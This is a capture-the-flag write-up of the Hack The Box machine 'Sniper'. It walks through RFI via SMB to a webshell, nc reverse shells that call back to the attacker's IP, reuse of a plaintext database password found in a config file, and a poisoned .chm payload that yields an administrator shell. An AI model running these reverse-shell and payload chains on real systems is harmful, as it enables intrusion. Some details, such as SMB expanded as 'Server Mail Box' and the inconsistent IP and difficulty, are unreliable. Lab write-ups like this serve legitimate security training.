






# Sniper


Sniper box was easy box. It falls under windows and medium category. Here I will explain my path for Sniper box from Hack The Box.
<!--more-->

---
## HTB:Sniper

Sniper box was easy box. It falls under windows and medium category. Here, everything was all about enumeration and webshell upload. I’ll approach this write-up how I solved it, along with the problems that I had to face during this box. At first I obtained the user flag by exploiting RFI using SMB and I got the unprivelege user shell to privelege by using powershell commands and with .chm exploit I got root.txt. I’ll show all my payload (including that didn’t work in initial deployment to get root).


## Box Details



In the above it's ip was `10.10.14.151`, I added it to `/etc/hosts` as sniper.htb. Let's solve this box.


## Recon 

Let's start with universal port scanner, `nmap` to see the open ports and `port 80` and `smb` service was opened.
```
# Nmap 7.80 scan initiated Fri Mar 27 21:34:08 2020 as: nmap -sS -sC -sV -Pn -oA nmap.txt 10.10.10.151
Nmap scan report for sniper.htb (10.10.10.151)
Host is up (0.41s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h03m03s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-27T22:53:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 27 21:35:52 2020 -- 1 IP address (1 host up) scanned in 103.56 seconds
```

### Web Enumeration
sniper.htb

After I noticed port `80` was opened I visited that site and got this as output.




From above, it was a good delivery website. So I checked everypart of the website and found this directory as interesting `http://sniper.htb/blog/index.php` . Here I found language where I was able to change the language `http://sniper.htb/blog/?lang=blog-en.php` . This happens due to the RFI (Remote File Inclusion) vulnerability in the webservices.

### Webshell
Since `Sniper` had `SMB(Server Mail Box)` service. So I combined with RFI to get a webshell. For that you can follow this link [here](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html).




Above you can see the webshell. So, now I used nc to get the actually shell. For that I had to upload `nc.exe` to the webshell. 
If you don't have then you can download from [here](https://github.com/gr4n173/tools.git).

Now before uploading that I made a dir named `gr4n173`  
you can see the pic below.





then uploaded `nc` tool to that directory as:





### Unprivileged shell 

Now I setup a listener on and used the command of `nc` as:




#### Listener:
```
root@gr4n173:~$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 50602
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\gr4n173>whoami
whoami
nt authority\iusr
```
Here I was unable to run any commands, so I switched to powershell as:

#### Power shell
```
C:\gr4n173>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\gr4n173> 
```

Then I found the `Chris` user. Since I m unprivelege user so no any permission was granted.

```
PS C:\Users> ls
ls
    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         4/9/2019   6:47 AM                Administrator                                                         
d-----        4/11/2019   7:04 AM                Chris                                                                 
d-r---         4/9/2019   6:47 AM                Public                                                                
```
Now I had to change the user from unprivileged to privileged for that I searched everypart of the dir and found the creds of user `chris` as `Chris:36mEAhz/B8xQ~2VM`.

```
PS C:\inetpub\wwwroot\user> more db.php
more db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```
By combining creds and `Invoke-Command` I got the user shell. Before that I created the folder `files` and downloaded the `nc` tool inside. Since it's 2020 as python2 died so I used python3 server as

```
PS C:\gr4n173> cd files
cd files
PS C:\gr4n173\files> Invoke-Webrequest -Uri http://10.10.14.11:8000/nc.exe -OutFile nc.exe
Invoke-Webrequest -Uri http://10.10.14.11:8000/nc.exe -OutFile nc.exe
PS C:\gr4n173\files> 
```
 
```
root@gr4n173:~var/www/html/pub$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.151 - - [28/Mar/2020 20:38:14] "GET /nc.exe HTTP/1.1" 200 -
```

Finally downloaded `nc.exe`. Now I used `creds` and `Invoke-Command` to know the if I can run the command as

### Privilege User
```
PS C:\gr4n173\files> $pass =cOnvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$pass =cOnvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\gr4n173\files> $cred = New-Object System.Management.Automation.PSCredential(".\chris",$pass)
$cred = New-Object System.Management.Automation.PSCredential(".\chris",$pass)
PS C:\gr4n173\files> Invoke-Command -Computer Sniper -ScriptBlock { whoami } -Credential $cred 
Invoke-Command -Computer Sniper -ScriptBlock { whoami } -Credential $cred 
sniper\chris
```
In above command, at first I defined a variable `$pass` which store the password and another variable `cred` for passing the `user` and `pass` to `Powershell` and last one gaves the output of command `whoami` in `Powershell`. Hence I can run the `command` .


## Reverse shell

So I used the `nc reverse shell` as with a listener on.

```
PS C:\gr4n173\files> Invoke-Command -Computer Sniper -ScriptBlock { C:\gr4n173\files\nc.exe 10.10.14.11 4445 -e powershell } -Credential $cred 
Invoke-Command -Computer Sniper -ScriptBlock { C:\gr4n173\files\nc.exe 10.10.14.11 4445 -e powershell } -Credential $cred 
```
##### Listener:

```
root@gr4n173:~$nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 50671
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
 
PS C:\Users\Chris\Documents> hostname
hostname
Sniper
```
This way I got the user.


```
PS C:\Users\Chris\Desktop> ls
ls
    Directory: C:\Users\Chris\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   8:15 AM             32 user.txt                                                              


PS C:\Users\Chris\Desktop> more user.txt
more user.txt
21f4d******************
```


--- 
## User to Root

For root I searched every part of the user shell and uncomplete `.chm` file was found inside Chris's Downloads directory:

```
PS C:\Users\Chris\Downloads> ls
ls
    Directory: C:\Users\Chris\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   8:36 AM          10462 instructions.chm
```

### Poisoning .chm

In order to poison, I used `Out-CHM.ps1` while  from [Nishang](https://github.com/samratashok/nishang) which is quite Interesting git repo especially related to window.

I used nishand tool and opened it in powershell.

```
PS: > Import-Module .\Out-CHM.ps1
```

Now I used the powershell to bypasss the Antivirus security.
```
PS: > powershell.exe -ExecutionPolicy Bypass
```

Then I download the `nc64.exe` to the Chris's Documents folder as

```
PS: > Out-CHM -Payload "cd C:\Users\Chris\Documents;./nc64.exe
10.10.14.11 8888 -e powershell" -HHCPath "C:\Program Files (x86)\HTML
Help Workshop" 
```
Here, I defined the dir of `nc64.exe` and used [this](https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7) to exploit. File name `doc.chm` was created and you can get here [file](public/files/doc.chm). This way I created the poison of `.chm` file.

Now I downloaded the created file to user shell `Chris` with a listener on along with the `python3 server` in `/var/www/html/pub`
 
```
PS C:\Users\Chris\Documents> Invoke-Webrequest -Uri http://10.10.14.11:8000/doc.chm -OutFile doc.chm                                                                   
Invoke-Webrequest -Uri http://10.10.14.11:8000/doc.chm -OutFile doc.chm  
```

## Root Shell

```
root@gr4n173:~$nc -lvnp 8888                              
listening on [any] 8888 ...  
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 53447                 
Microsoft Windows [Version 10.0.17763.678]                                   
C:\Windows\system32>whoami                                                   
sniper\administrator                                                         
```
This way I can read the `root.txt`file.

```

PS C:\Users\Administrator\Desktop> more root.txt     
5624caf********************     
```

This way I got the root of Sniper box and learned alot from this box. So I would like to thank creators of this box `MinatoTW & felamos` for such an awesome box. Especially poisoning `.chm` was awesome.


I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup.

Feedback are really appreciated !!

Tweet about this writeup if you like.

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).

